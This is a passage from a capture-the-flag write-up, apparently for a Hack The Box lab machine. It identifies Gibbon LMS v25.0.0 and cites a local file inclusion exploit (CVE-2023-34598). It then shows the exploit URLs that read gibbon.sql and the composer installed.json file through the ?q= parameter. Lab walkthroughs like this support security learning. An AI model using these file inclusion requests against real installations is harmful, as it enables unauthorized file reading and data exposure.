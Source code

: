 By searching this version of service, we can find a LFI exploit from github
`Gibbon v25.0.0 - Local File Inclusion - CVE-2023-34598`
By following the poc of this exploit, we can also check the gibbon.sql
`http://frizzdc.frizz.htb/Gibbon-LMS/?q=gibbon.sql`
![](images/Pasted%20image%2020250318161056.png)
And also the version of installed package  `http://frizzdc.frizz.htb/Gibbon-LMS/?q=/vendor/composer/installed.json`
![](images/Pasted%20image%2020250318161538.png)
